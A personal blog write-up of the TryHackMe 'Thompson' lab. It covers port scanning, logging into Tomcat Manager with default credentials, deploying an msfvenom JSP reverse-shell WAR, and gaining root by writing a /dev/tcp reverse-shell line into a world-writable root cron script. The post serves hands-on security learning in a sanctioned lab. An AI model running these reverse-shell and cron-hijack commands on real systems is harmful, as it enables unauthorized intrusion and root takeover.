 ```yaml
---
layout: post
title: Thompson
subtitle: TryHackME - Thompson
description: Enumerate services, scan  ports,upload shell, and escalate privileges to capture flags.
image: https://tryhackme-images.s3.amazonaws.com/room-icons/f5e35bf1d933a9b45077e5388635a593.png
optimized_image: https://tryhackme-images.s3.amazonaws.com/room-icons/f5e35bf1d933a9b45077e5388635a593.png
tags:
  - TryHackME
  - Privilege Escalation
  - Find Flags
  - Cron Job
author: Mustafa Altayeb
date: 2025-10-14 00:00
paginate: true
---
```


# Thompson
[Thompson](https://tryhackme.com/room/bsidesgtthompson)

![](https://tryhackme-images.s3.amazonaws.com/room-icons/f5e35bf1d933a9b45077e5388635a593.png)

## Objectives
1. Scan with Nmap
2. Enumerate Web to find interesting info 
3. Find input accept files 
4. Gain access with a reverse shell
5. Privilege escalation with Cron Job
6. Capture 2 flag

## Reconnaissance

### Nmap Scan
Port scan:
```bash
nmap -p- -T4 -sCV -oA Nmap_Thompson 10.10.34.161
```

**Key Findings**:
- **Port 22**:   OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 .
- **Port 8009**: ajp13   Apache Jserv (Protocol v1.3)
- **Port 8080**: Apache Tomcat 8.5.5

## Web Enumeration

**Port 8009**: no actions .
**Port 8080**: Running tomcat :

![](/assets/TryHackMeRoomsImage/Thompson/image.png)

- After clicking on `Manager App` it's alerted me to sigin in with login username and password :

![](/assets/TryHackMeRoomsImage/Thompson/image1.png)

- By trying incorrect login credential it's redirect me to page 401 `Unauthorized access`
and find login credential on this response :


[](/assets/TryHackMeRoomsImage/Thompson/image2.png)

Login credential is `user name : tomcat && password is s3cret ` 

- Login with this credential and get web page ` Tomcat Web Application Manager` :

![](/assets/TryHackMeRoomsImage/Thompson/image3.png)

- Enum this page and I find `Input` that accept files with extension `.war` 

![](/assets/TryHackMeRoomsImage/Thompson/image4.png) 

- Create `Reverse Shell` using msfvenom :

- By search about `.war` extension i find it's running Java web server :
![](/assets/TryHackMeRoomsImage/Thompson/image5.png) 

>|**msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.14.109.66 LPORT=9999 -f war > shell.war**



## Gain Initial Access 

- Upload Our Shell to site and Deploy 
- Start Listen with Netcat :
>|**nc -nlvp 9999**
- Access the shell by click on it .

```js
💻  T4T4R1S  🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀  ➜ ~/filetodelete/thm_machines/Thompson  nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.14.109.66] from (UNKNOWN) [10.10.34.161] 32838
ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```
- Now we gain access but limited shell
- Upgrade The Shell Using Python :
>|**python -c 'import pty; pty.spawn("/bin/bash")'**

```js
python -c 'import pty; pty.spawn("/bin/bash")'
tomcat@ubuntu:/$ 
```
### First flag 

```js
tomcat@ubuntu:/home/jack$ cat user.txt
cat user.txt
39400c90bc683a41a.............
```

## Privilege Escalation
- I searched for binary bits but not work 
- After some time i search for cron job:

```js
tomcat@ubuntu:/home/jack$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
#
```
- File Called id.sh we have Privilege to write on it and it's execute with root privilege 

```js
tomcat@ubuntu:/home/jack$ ls -lah
ls -lah
total 48K
drwxr-xr-x 4 jack jack 4.0K Aug 23  2019 .
drwxr-xr-x 3 root root 4.0K Aug 14  2019 ..
-rw------- 1 root root 1.5K Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3.7K Aug 14  2019 .bashrc
drwx------ 2 jack jack 4.0K Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4.0K Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Oct 13 14:50 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
```

- let's write our shell to get root access:
```js
tomcat@ubuntu:/home/jack$ echo "bash -i >& /dev/tcp/10.14.109.66/8585 0>&1 " > id.sh
```

- Gain root access:
```js
💻  T4T4R1S  🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀  ➜ ~  nc -nlvp 8585
listening on [any] 8585 ...
connect to [10.14.109.66] from (UNKNOWN) [10.10.34.161] 34958
bash: cannot set terminal process group (1091): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# 
```

## Root Flag :
```js
root@ubuntu:~# cat root.txt
cat root.txt
d89d5391984c045................
```

Finished. Happy Hacking!



<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>

Follow me:
- [LinkedIn](https://www.linkedin.com/in/t4t4r1s/)
- [X](https://x.com/T4T4R1S)

---

